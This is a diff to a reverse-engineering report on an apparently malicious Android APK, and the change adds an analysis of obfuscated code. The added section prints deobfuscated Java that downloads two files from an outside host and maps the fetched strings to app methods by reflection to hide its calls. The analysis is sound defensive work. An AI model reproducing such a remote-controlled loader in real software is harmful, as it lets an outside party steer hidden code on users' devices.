

Before and after one commit to davidjosearaujo/re-android-reversing, a Markdown page: docs/Report.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/Report.md
+++ b/docs/Report.md
@@ -131,9 +131,48 @@ Given that information, we may assume that Java code is parsing these names and
 
 ## Exploring readable files
 
+We can see that inside function a() (obfuscated) a string is being splitted by '|' character. To make it more clear we did some deofuscation and achieved the following result
+
+```
+public static void fetchFilesAndProcess() {
+        String str;
+        Session session = new Session();
+        HttpHandler.getRequest getrequest = new HttpHandler.getRequest();
+        getrequest.request("https://befukiv.com/muchaspuchas");
+        HttpHandler call = getrequest.call();
+        HttpHandler.getRequest getrequest2 = new HttpHandler.getRequest();
+        getrequest2.request("https://befukiv.com/cortina");
+        HttpHandler call2 = getrequest2.call();
+        try {
+            ParseHttpResponseBody parseHttpResponseBody = new setupTls(session, call).Execute().responseBody;
+            byte[] parse = parseHttpResponseBody.parse();
+            TwoStrings twoStrings = parseHttpResponseBody.getTwoStrings();
+            Charset charset = z4.h.utf8Charset;
+            if (twoStrings != null && (str = twoStrings.secondStr) != null) {
+                charset = Charset.forName(str);
+            }
+            muchasStrings.set(new String(parse, charset.name()).split("\\|"));
+            byte[] parse2 = new setupTls(session, call2).Execute().responseBody.parse();
+            if (fetchAndProcessCompleted.get()) {
+                return;
+            }
+            fw.getClass();
+            FileWriter.mapMuchasStringsToMethods(parse2);
+            fetchAndProcessCompleted.set(true);
+        } catch (Throwable th) {
+            th.printStackTrace();
+        }
+    }
+```
+
+As we can see, the function is fetching the files and is then it maps 'muchaspuchas' strings into application methods.
+This shows that authors wanted to obfuscate application method calls with reflection.
+
+
 TODO
 1. muchaspuchas maybe a CSV type file
 2. Based on 1., we look for split functions.
 
 
+
 Going through the _1.apk_ files, we encountered a package named "juw.khdqwmf.xftkgphgq.fhyu" containing Chinese characters. After translating these strings using Google Translate, we determined that these characters formed simple Chinese sentences unrelated to the application's purpose. Further exploration revealed that **these strings were translated into package names when passed through a function**. This indicates that the original authors chose to obscure package names using Chinese strings.
````
